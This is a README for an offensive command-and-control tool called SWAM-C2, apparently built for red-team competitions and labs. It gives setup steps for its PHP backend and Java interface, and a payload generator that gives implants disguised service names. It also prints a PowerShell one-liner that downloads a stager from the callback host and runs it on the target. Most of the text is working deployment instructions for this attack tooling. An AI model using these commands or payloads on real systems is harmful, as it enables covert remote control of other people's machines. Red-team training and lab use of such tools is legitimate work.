


# SWAM-C2


<div align="center">
    <p>An  light-weight command-and-control server and interface built for competition, workshop, and labbing purposes</p>
    <div>
        
        <br>
        <em>Enter the C2 IP and Port</em>
    </div>
    <div>
        
        <br>
        <em>Main Menu</em>
    </div>
</div>

## What is included

### Custom payload generator:
 - Python based
 - Can either create Linux or Windows payloads
 - Parameterizes file names, and beacon intervals, call out ports, etc. all within one command
 - Payloads contain a beaconing script that reads base64 encoded commands from the C2, decodes them, executes, and sends back any responses
 - Comes with custom fun deployable scripts 

### Java Swing UI interface:
 - Light-weight UI
 - Provides the ability to switch between compromised Linux and Windows hosts
 - Can either push commands individually or to all machines at once

### Apache2/PHP-based backend & API:
 - An easy to configure PHP API used for communication between the command-and-control user and infected hosts
 - File-based database

## Set up steps

### Set-up webserver Docker image:
First build the docker image. 
**YOU ONLY NEED TO DO THIS ONCE**: 
```sh
docker build -t server-backend-image .
```
Second run the docker container with your chosen callback port. In this case, I'll choose port 10010. 
**RUN THIS WHENEVER YOU WANT TO HOST THE WEBSERVER**:
```sh
docker run -d --name server-backend -p 10010:80 server-backend-image
```
The webserver backend will now be running and operational on port 10010 of your machine and port 80 of the container.

### Set-up interface
Next, open the interface by double clicking on ``SWAMC2.jar``

### Set-up payload
Finally, generate a payload with ``GenPayload.py``:
```sh
# Example of a generated payload for:
# Windows 64-bit architecture
# Call-back ip: 10.10.50.173
# Call-back port: 10010 
# File-transfer port: 9090
# Interval: 5 seconds
# Stager name: stdinit.ps1
# Service name: LinkControlFlow
# Beacon name: tsrfhelper.exe
# Service description: Provodes the best media in the seven seas

python3 GenPayload.py -os 1 -hh 10.10.50.173 -p 10010 -bp 9090 -i 5 -a 64 -stn "stdinit" -sn "LinkControlFlow" -bn "tsrfhelper" -sd "Provides the best media in the seven seas"
```
The command will then output:
```sh
[+] Run the following on host:

cd Beam/Windows; python3 -m http.server 9090

[+] Run the following on target:

Start-Process "powershell.exe" -ArgumentList "-NoProfile", "-Command", ([System.Text.Encoding]::UTF8.GetString((Invoke-WebRequest -Uri "http://10.10.50.173:9090/stdinit.ps1" -UseBasicParsing).Content)).Trim() -NoNewWindow -Wait
```
Now all you have to do is run the top command on your machine and the bottom command on the Windows host. 

It takes ~10 seconds for Linux hosts to begin beaconing after running the inital command and ~18 seconds for Windows.

## Teardown

### Turn off Docker image:
Run:
```sh
docker stop server-backend
```

## Disclaimer
THIS PROJECT IS MADE **ONLY** FOR WORKSHOP, LAB, AND COMPETITION PURPOSES. I AM NOT RESPONSIBLE FOR ANY ILLICIT ACTIVITY DONE WITH THIS TOOLING.
